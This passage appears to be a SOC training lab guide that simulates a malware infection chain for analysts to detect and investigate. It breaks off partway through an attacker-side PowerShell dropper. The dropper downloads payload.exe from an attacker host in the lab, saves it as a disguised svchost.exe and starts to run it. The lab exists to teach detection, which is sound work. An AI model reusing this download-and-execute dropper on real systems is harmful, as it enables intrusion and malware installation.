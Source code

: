 # Attack Scenario 2: Malware Analysis and Detection

## Scenario Overview
This scenario simulates a malware infection chain starting from email delivery through execution, persistence, and data exfiltration. SOC analysts will practice malware detection, analysis, and incident response procedures.

## Learning Objectives
- Detect malware execution in endpoint logs
- Analyze malware behavior and artifacts
- Perform static and dynamic malware analysis
- Create IOCs and detection signatures
- Implement containment procedures

## Attack Timeline
**Duration**: 3-4 hours  
**Difficulty**: Intermediate  
**Prerequisites**: Basic understanding of Windows processes, file systems, and network protocols

## Lab Setup

### Target Systems
- **Windows 10 Vulnerable VM** (10.0.2.102) - Primary infection target
- **Ubuntu Vulnerable VM** (10.0.2.101) - Secondary target for lateral movement

### Monitoring Systems
- **ELK SIEM** (10.0.2.100) - Log collection and analysis
- **Network monitoring** - Traffic analysis with Suricata

### Malware Samples
- **Custom PowerShell dropper** - Initial payload
- **Mimikatz** - Credential harvesting
- **Custom backdoor** - Persistence and C2
- **Data exfiltration script** - Simulated data theft

## Attack Execution

### Phase 1: Initial Infection (30 minutes)

#### Attacker Actions (Kali Linux)
```bash
# Create malicious PowerShell script
cat > /tmp/dropper.ps1 << 'EOF'
# PowerShell Dropper Script
$url = "http://10.0.2.15:8080/payload.exe"
$output = "$env:TEMP\svchost.exe"

# Download payload
try {
    Invoke-WebRequest -Uri $url -OutFile $output -UseBasicParsing
    Write-Host "Download successful"
} catch {
    Write-Host "Download failed"
    exit
}

# Execute payload
if (Test-Path $output) {
```